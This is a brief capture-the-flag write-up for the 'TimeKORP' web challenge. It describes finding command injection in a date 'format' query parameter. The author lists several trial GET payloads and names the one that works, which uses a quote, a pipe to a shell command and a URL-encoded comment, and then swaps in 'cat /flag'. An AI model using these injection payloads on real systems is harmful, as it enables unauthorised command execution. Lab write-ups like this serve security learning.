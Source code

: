 # TimeKORP

So we start off with this page:

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

if i put a quote at the end of the url we get a blank response:

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i capture the request, send it to the repeater and start looking how i can get an output via command injection:

```
GET /?format=%Y-%25m-%25d'|pwd
GET /?format=%Y-%25m-%25d'pwd
GET /?format=%Y-%25m-%25d'|pwd#
GET /?format=%Y-%25m-%25d'|pwd+
GET /?format=%Y-%25m-%25d'|pwd+%23
```

and the last payload works, i needed to comment out the rest of what the backend server was doing and url encode my request:

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we just need to change the command to cat /flag and we get our flag
